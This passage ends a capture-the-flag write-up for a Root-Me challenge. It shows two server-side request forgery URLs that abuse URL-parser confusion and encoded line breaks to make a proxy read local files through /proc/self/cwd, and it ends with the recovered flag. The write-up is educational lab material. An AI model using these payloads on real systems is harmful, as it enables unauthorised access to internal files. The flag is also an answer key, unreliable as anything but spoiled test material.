 ```url
http://ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/you_wont_guess_it.js
```

This command works properly, and we can see what we are looking for.

```js
const FLAG_PATH = "a49b4e26e4b6b4638f225fb342a645ce/flag.txt";
```

The last payload is easy to create.

```url
ctf10k.root-me.org:6005/proxy?url=https:///127.0.0.1%0A%0Dlocalhost:808.root-me.org://127.0.0.1/proc/self/cwd/a49b4e26e4b6b4638f225fb342a645ce/flag.txt
```

And voilà! 

**Flag: `RM{T4k3_C4R3_0f_Y0uR_URL_P4rs3R}`**
